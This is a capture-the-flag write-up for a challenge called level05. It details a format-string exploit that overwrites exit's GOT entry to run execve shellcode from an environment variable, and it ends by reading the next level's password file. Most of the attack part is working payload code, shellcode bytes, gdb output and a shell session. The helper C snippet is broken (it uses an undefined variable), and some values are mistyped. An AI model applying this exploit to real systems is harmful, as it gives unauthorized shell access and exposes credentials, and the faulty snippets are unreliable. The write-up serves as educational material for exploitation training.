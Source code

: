 # Level 05

## Initial Context

- One file: `level05`

## Gathering informations

The program read `stdin`, lowers the input and write it `stdout`.

By looking at the decompiled code, the process sends the buffer to `printf`, allowing a format string attack.
Right after the `printf` call, `exit` is called and can be overwritten using the `Global Offsets Table`.

### Finding the buffer location

First we need to know where the buffer is stored relative to the `printf` call:

```bash
$ for i in $(seq 1 42); do
>     echo -n "$i ";
>     python -c 'print "AAAA %'$i'$x''"' | ./level05;
> done | grep 61616161
10 aaaa 61616161
```

We can access the buffer at the `10`th parameter.

### Storing the payload

Then, since we cannot send the payload to `stdin` (because of the `toupper()`), we need to store it to the environment variables.
Storing it here is unstable since environment variables can move in memory.

To mitigate that, we can use a [NOP slide](https://en.wikipedia.org/wiki/NOP_slide) to give us more room.

```bash
export SHELLCODE=`python -c 'print "\x90" * 1024 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

Now we need to find the address of the `SHELLCODE` environment variable when a program is running.
For that, we can write a small utility ([full code](./Ressources/getenv.c)):

```c
void main(int argc, char const* argv[])
{
    char const *ptr = getenv(argv[1]);
    printf("address: %p\n", var_name, ptr, ptr);
}
```

```bash
$ gcc getenv.c -o getenv -m32
$ ./getenv SHELLCODÈ
address: 0xffffd4f8
```

To avoid small shifts in memory, let's add `512 bytes` (half of the NOP slide).
The address is now: `0xffffd6f8`

We cannot write `4294956792 bytes` directly via `printf` as it exceed `INT_MAX`.
But we can send both `0xffff` and `0xd6f8` as two shorts.

### Locate `exit`'s GOT

And last, we need to find `exit`'s GOT location:

```
$ gdb ./level05 
(gdb) disass 'exit@plt'
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
...
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

`exit`'s GOT is located at `0x080497e0`.

Since we need to write two shorts, the addresses will be:
- `0x080497e0` (or `e0 97 04 08` in LE)
- and `0x080497e2` (or `e2 97 04 08` in LE)

## Solving the Challenge

As previously stated, we need to overwrite `exit` GOT using two shorts.

Since when using `printf`'s `%n` specifier, the value does not reset, we need to take into account that.

The first value we need to write `n bytes` being `d4f8` minus `8 bytes` for the two addresses.

```python
# value itself
0xd6f8 = 55032

# skip two first addresses
55032 - 8 = 55024
```

For the second value, we need to write `n bytes` being the distance between two the shorts.

```python
# value itself
0xffff = 65535

# substract the first value
65535 - 55032 = 10503
```

We can now build the payload:

```python
# exit@got.plt, this will write 4 characters
"\xe0\x97\x04\x08"

# exit@got.plt + 2, this will write 4 characters
+ "\xe2\x97\x04\x08"

# write 55024 dummy characters for a total of 55032
+ "%55024x"

# ask print to store the number of characters written to the 10th parameters, using a short (h)
+ "%10$hn"

# write 10503 dummy characters, for a total of 65535
+ "%10503x"

# ask print to store the number of characters written to the 11th parameters, using a short (h)
+ "%11$hn"
```

We can store it and send it to the vulnerable program:

```bash
$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55024x%10$hn" + "%10503x%11$hn"' > /tmp/exploit05
$ cat /tmp/exploit05 - | ./level05
...
whoami
level06
cat /home/users/level06/.pass
<flag>
```

## References

- https://shankaraman.wordpress.com/category/ctf/binary-exploitation/
- https://www.ibm.com/docs/en/i/7.2?topic=functions-printf-print-formatted-characters
